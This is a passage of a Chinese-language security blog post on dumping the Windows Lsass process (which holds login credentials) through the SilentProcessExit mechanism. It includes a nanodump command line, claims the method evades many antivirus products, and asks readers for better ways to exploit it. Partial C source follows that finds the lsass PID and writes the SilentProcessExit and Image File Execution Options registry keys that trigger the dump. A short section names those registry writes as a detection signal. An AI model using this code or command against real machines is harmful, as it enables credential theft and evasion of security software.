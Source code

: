 ![](https://gitee.com/fuli009/images/raw/master/public/20230628221552.png)
获取debug权限、设置注册表、通过进程名获取Lsass进程pid等函数的具体实现，可以参考文末的完整代码。其中SavePath这个宏设置的是dmp文件存储路径，C:\temp。
编译之后，执行程序，成功写入注册表并获取到Lsass进程的dmp文件。![](https://gitee.com/fuli009/images/raw/master/public/20230628221553.png)![](https://gitee.com/fuli009/images/raw/master/public/20230628221554.png)
以进程名及其pid号命名的文件夹里保存了Lsass进程的dmp文件，除此之外，还会有dump进程本身的dmp文件，这是由于RtlReportSilentProcessExit()函数执行时，虽然传了Lsass的句柄，但是归根结底dump程序自身也调用了。![](https://gitee.com/fuli009/images/raw/master/public/20230628221555.png)
开源工具Nanodump中也集成了这种手法:       nanodump --werfault C:\Windows\Temp\
(dmp文件存放目录)![](https://gitee.com/fuli009/images/raw/master/public/20230628221556.png)
可以看到dump出的文件保存在了设置的路径中：![](https://gitee.com/fuli009/images/raw/master/public/20230628221557.png)
这个方法其实很早就有了，虽然能过很多国内杀软，但是经过测试过不了Defender，如果有大佬有更好的利用思路欢迎私信交流。  

##  **0x05 检测方法** ****

     虽然SlientProcessExit机制比较隐蔽，目前基本很难被国内的杀软检测，但是这个机制的不足就在于需要进行注册表设置。    一般来说，机器默认是没有以下注册表路径的：        HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe；        HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe；    所以在使用SlientProcessExit机制进行Lsass Dump之前，一定需要添加相应的注册表键值和数据，这个注册表Set Value的行为可被作为这种方法的检测特征。

##  **0x05 后记** ****

     除了SlientProcessExit机制之外，还有一种利用WerFault进程和正常系统机制来进行Lsass Dump的方法，这个方法相比于SlientProcessExit机制具有更好的隐秘性，将在下篇文章进行介绍。

##  **0x06 完整代码** ****

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # include <stdio.h>#include <windows.h>#include <tlhelp32.h>#define SavePath L"c:\\temp"  
    //获取lsass进程pidDWORD FindProcessId() {  PROCESSENTRY32 processInfo;  processInfo.dwSize = sizeof(PROCESSENTRY32);  HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);  if (snapshot == INVALID_HANDLE_VALUE) {    return 0;  }  if (Process32First(snapshot, &processInfo)) {    do {      if (!_wcsicmp(L"lsass.exe", processInfo.szExeFile)) {        CloseHandle(snapshot);        return processInfo.th32ProcessID;      }    } while (Process32Next(snapshot, &processInfo));  }  CloseHandle(snapshot);  return 0;}  
    //修改注册表int regedit(){  HKEY hKey;  LONG result;  //创建并打开 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" 子键  result = RegCreateKeyEx(  HKEY_LOCAL_MACHINE,  L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\SilentProcessExit\\lsass.exe",  0,  NULL,  REG_OPTION_NON_VOLATILE,  KEY_WRITE,  NULL,  &hKey,  NULL  );  //添加 DumpType 类型为 REG_DWORD 的内容，数据为0x2  DWORD dumpTypeValue = 0x02;  result = RegSetValueEx(hKey, L"DumpType", 0, REG_DWORD, (const BYTE*)&dumpTypeValue, sizeof(DWORD));   //添加 LocalDumpFolder 类型为 REG_SZ 的内容，数据为 c:\temp（SavePath）  result |= RegSetValueEx(hKey, L"LocalDumpFolder", 0, REG_SZ, (const BYTE*)SavePath, sizeof(SavePath));   //添加 ReportingMode 类型为 REG_DWORD 的内容，数据为0x2  DWORD reportingModeValue = 0x02;  result |= RegSetValueEx(hKey, L"ReportingMode", 0, REG_DWORD, (const BYTE*)&reportingModeValue, sizeof(DWORD));  RegCloseKey(hKey);   //创建并打开 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe" 子键  result = RegCreateKeyEx(  HKEY_LOCAL_MACHINE,  L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\lsass.exe",  0,  NULL,  REG_OPTION_NON_VOLATILE,  KEY_WRITE,  NULL,  &hKey,  NULL  );  //添加 GlobalFlag 类型为 REG_DWORD 的内容，数据为0x200  DWORD globalFlagValue = 0x200;  result = RegSetValueEx(hKey, L"GlobalFlag", 0, REG_DWORD, (const BYTE*)&globalFlagValue, sizeof(DWORD));  RegCloseKey(hKey);  return 0;}    